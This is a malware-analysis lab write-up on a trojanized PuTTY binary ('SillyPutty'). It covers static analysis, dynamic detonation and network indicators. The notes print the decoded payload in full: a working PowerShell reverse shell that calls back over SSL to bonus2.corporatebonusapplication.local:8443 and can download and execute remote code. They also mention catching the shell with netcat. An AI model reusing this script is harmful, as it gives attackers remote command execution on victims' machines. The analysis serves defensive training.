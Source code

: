 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/malware-analysis/silly-putty-exe/","tags":["specimen"]}
---
```


[[atlas/malware\|malware]] 
## Static Analysis 
---
### Basic Static Analysis
---
#### What is the SHA256 hash of the sample?
---
```
0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83 *putty.exe
```
#### What architecture is this binary?
---
Putty.exe have a 32-bit architecture.
#### Are there any results from submitting the SHA256 hash to VirusTotal?
---
VirusTotal flag putty.exe as malicious with 60/73 flags!
#### Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?
---
The most notable strings found is:

![SillyPutty.exe.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe.png)

Registry key manipulation.

As well as:

![SillyPutty.exe-1.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-1.png)

TCP Socket communications
#### Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
---

![SillyPutty.exe-2.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-2.png)

Most notable is **WriteFile**, **ShellExecuteA**, **Anti-Debugging** and **Registry Key Manipulation**
#### Is it likely that this binary is packed?
---
No, as the size of raw data is much larger than the virtual size:

![SillyPutty.exe-3.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-3.png)

### Basic Dynamic Analysis
---
#### Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?
---
Without Internet Simulation, it opens up the PuTTY configuration but with Internet Simulation it does the same it opens up PowerShell for both.
#### From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
---
Using `procmon` and process file tree I found a powershell open up with the command in base64.

The decoded is into gunzip file and after removing some paramer such as `-hidden` command:

![SillyPutty.exe-4.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-4.png)

Using `cyberchef` and clicking the magic wand:


```PowerShell
function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
powerfun -Command reverse -Sslcon true
```
#### What is the DNS record that is queried at detonation?
---
bonus2.corporatebonusapplication.local
#### What is the callback port number at detonation?
---
Port: 8443.
#### What is the callback protocol at detonation?
---
Based on the WireShark Output it is SSL/TLS
#### How can you use host-based telemetry to identify the DNS record, port, and protocol?
---
Using `procmon` with filter for `OPERATION: TCP`.

#### Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?
---

![SillyPutty.exe-5.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-5.png)

A server using netcat since in the code `ssl` was applied in netcat we simply add `--ssl`

## Conclusion
---

